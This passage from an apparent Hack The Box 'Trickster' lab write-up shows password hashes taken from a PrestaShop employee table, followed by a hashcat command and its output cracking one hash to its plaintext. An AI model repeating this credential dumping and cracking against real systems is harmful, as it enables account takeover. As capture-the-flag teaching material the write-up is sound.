![](attachment/e783ffe5d7b74023eb8f2cffb914211a.png)

Go look inside ps_employee table and you will able to find users credentials:

```
admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C
james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm 
```

![](attachment/0d221a333752ae8d0aab62f2a20cd320.png)

Logout from reverse shell and try to crack with hashcat

```shell
┌──(kali㉿kali)-[~/HTB/Trickster/CVE-2024-34716]
└─$ cat james_hash        
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm                  
┌──(kali㉿kali)-[~/HTB/Trickster/CVE-2024-34716]
└─$ hashcat -m 3200 -a 0 james_hash /usr/share/wordlists/rockyou.txt
.....
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6y...yunCmm
Time.Started.....: Fri Nov  8 17:00:13 2024 (12 secs)
Time.Estimated...: Fri Nov  8 17:00:25 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     3156 H/s (3.38ms) @ Accel:4 Loops:16 Thr:1 Vec:1
```